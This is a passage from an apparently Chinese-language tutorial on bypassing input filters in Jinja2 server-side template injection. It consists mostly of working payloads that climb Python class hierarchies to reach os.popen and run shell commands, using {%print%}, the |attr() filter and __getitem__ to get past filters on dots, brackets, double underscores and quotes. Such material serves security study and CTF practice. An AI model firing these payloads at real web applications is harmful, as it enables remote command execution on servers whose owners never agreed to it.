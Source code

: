 也可以用 `{%print(......)%}` 的形式来代替 `{{` ，如下：

```
{%print(''.__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls').read())%}
```

利用 `|attr()` 来 Bypass
---------------------

这里说一个新东西，就是原生 JinJa2 函数 `attr()`，这是一个 `attr()` 过滤器，它只查找属性，获取并返回对象的属性的值，过滤器与变量用管道符号（ `|` ）分割。如：

```
foo|attr("bar")   等同于   foo["bar"]
```

`|attr()` 配合其他姿势可同时绕过双下划线 `__` 、引号、点 `.` 和 `[` 等，下面给出示例。

### 同时过滤了 . 和 []

过滤了以下字符：

```
.    [
```

绕过姿势：

```
{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(77)|attr("__init__")|attr("__globals__")|attr("__getitem__")("os")|attr("popen")("ls")|attr("read")()}}
```

等同于：

```
{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls').read()}}
```

### 同时过滤了 __ 、点. 和 []

过滤了以下字符：

```
__    .    [    "
```

下面我们演示绕过姿势，先写出 payload 的原型：

```
{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}
```

由于中括号 `[` 被过滤了，我们可以用 `__getitem__()` 来绕过（尽量不要用 pop()），类似如下：

```
{{().__class__.__base__.__subclasses__().__getitem__(77).__init__.__globals__.__getitem__('__builtins__').__getitem__('eval')('__import__("os").popen("ls /").read()')}}
```

由于还过滤了下划线 `__`，我们可以用 request 对象绕过，但是还过滤了中括号 `[]`，所以我们要同时绕过 `__` 和 `[`，就用到了我们的`|attr()`
